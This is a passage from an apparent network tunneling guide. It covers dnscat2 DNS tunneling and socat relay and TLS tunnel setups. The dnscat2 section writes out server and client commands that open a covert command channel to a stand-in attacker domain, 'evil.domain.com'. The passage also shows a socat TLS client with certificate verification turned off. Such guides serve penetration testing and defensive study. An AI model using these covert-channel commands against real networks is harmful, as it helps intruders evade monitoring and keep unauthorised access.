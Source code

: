 ### 10.4 dnscat2: DNS Tunneling

dnscat2 provides covert communication through DNS queries:

```bash
# Server setup
ruby dnscat2.rb evil.domain.com

# Client connection
./dnscat2 evil.domain.com

# Client with specific DNS server
./dnscat2 --dns server=8.8.8.8 evil.domain.com

# Encrypted session
ruby dnscat2.rb --security=open evil.domain.com
./dnscat2 --secret=password evil.domain.com
```

## 11. Socat: Swiss Army Knife of Network Relays

:::note
Socat must be installed on both source and destination hosts. Replace port numbers, interface addresses, and file paths as needed for your environment.
:::

Socat provides bidirectional data relay capabilities with extensive protocol support:

### 11.1 Basic Relay Configurations

```bash
# TCP port forwarding
socat TCP-LISTEN:8080,fork TCP:internal_server:80

# UDP relay
socat UDP-LISTEN:53,fork UDP:dns_server:53

# TCP to UDP conversion
socat TCP-LISTEN:53,fork UDP:dns_server:53

# Bidirectional relay with logging
socat -d -d TCP-LISTEN:8080,fork TCP:internal_server:80

# Relay with connection limits
socat TCP-LISTEN:8080,fork,max-children=10 TCP:internal_server:80
```

### 11.2 Encrypted Tunneling

```bash
# SSL/TLS server
socat OPENSSL-LISTEN:443,cert=server.pem,fork TCP:internal_server:80

# SSL/TLS client
socat TCP-LISTEN:8080,fork OPENSSL:server:443,verify=0

# SSL with client certificate verification
socat OPENSSL-LISTEN:443,cert=server.pem,cafile=ca.pem,fork TCP:internal_server:80

# SSL tunnel with custom ciphers
socat OPENSSL-LISTEN:443,cert=server.pem,cipher=HIGH,fork TCP:internal_server:80
```
